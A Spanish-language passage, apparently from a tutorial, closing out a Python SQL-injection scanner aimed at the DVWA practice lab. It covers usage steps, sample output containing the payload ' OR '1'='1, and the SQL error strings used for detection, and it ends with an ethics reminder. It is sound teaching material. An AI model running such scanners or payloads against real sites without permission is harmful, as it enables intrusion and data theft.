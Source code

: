 ```python
            except Exception as e:
                print(f"❌ Error: {e}")
            finally:
                # Restaurar el valor original del parámetro
                params[param][0] = original

    if not vulnerable:
        print("✅ No se detectaron vulnerabilidades SQLi.")

# URL de prueba
if __name__ == "__main__":
    url = "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
    test_sql_injection(url)
```

---

### 📌 ¿Cómo se usa?

1. Asegúrate de que DVWA esté corriendo.
2. Configura el nivel de seguridad en "Low".
3. Ejecuta el script:

```bash
python sqli_scanner.py
```

Verás salidas como:

```
➡️ Probando: http://localhost/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit
🚨 ¡Vulnerabilidad detectada con payload: ' OR '1'='1
```

---

### 🛡️ ¿Cómo detecta si hay una vulnerabilidad?

✅ Busca **mensajes de error** en la respuesta HTML como:

- `"You have an error in your SQL syntax"`
- `"Warning: mysql_"`

📌 También puedes hacer que mida el tiempo de respuesta para detectar ataques de _time-based blind SQLi_.

---

### ⚠️ Ética y legalidad

**Este tipo de herramientas deben usarse solo en entornos de prueba** o con **permiso explícito** del dueño del sitio web.

---

### 🧪 ¿Dónde practicar legalmente?
